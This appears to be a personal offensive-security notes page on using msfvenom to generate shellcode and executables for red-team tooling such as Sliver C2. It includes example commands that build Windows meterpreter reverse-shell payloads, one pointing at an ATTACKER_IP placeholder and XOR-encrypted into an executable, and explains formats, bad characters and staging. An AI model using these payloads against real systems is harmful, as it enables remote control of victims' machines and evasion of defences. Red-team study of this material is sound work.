 MSFVenom is a Metaploit-produced payload generator for shellcode and executable generation. Its primary function will likely be for shellcode generation interoperable with [[Sliver C2]] or BOF applications. 

```shell
# Generate shellcode with msfvenom
msfvenom -p <payload name> <payload options> -a <architecture> -b <bad characters to avoid in shellcode generation> -o <output file> -f <output format>

# Example Windows Shellcode generation for use in a Python exploit
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python -b '\x00'

# Example encrypted meterpreter payload generation using XOR
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe

msfvenom --list encrypt # List encryption options.
```

>[!note]
>If you are staging your shellcode, generate in `raw` format to be downloaded by your custom stager.

Output architecture refer to the CPU architecture of the target machine: x86, arm, mips, powerpc, etc.

Payloads can be viewed with `--list payload`. Grep for what you need, because there's hundreds of options. 

Bad characters are specified as a string of bytes denoted like so: ``'\x00\x0a\x0b\x0c'``. If you are generating an agent or stager and *not* shellcode, bad characters should not be a concern. 

The output file flag tells msfvenom to output the data to a file and not to the screen. This should be used to output binary file formats but not necessarily shellcode destined for other code. 

The format flag tells msfvenom which code format to use when generating shellcode of which binary format or delivery format we want. For example, msfvenom can format a shellcode string as a python string or as a c string. It can also compile to an exe, and exe designed to run as a service, a powershell .ps1, etc. 
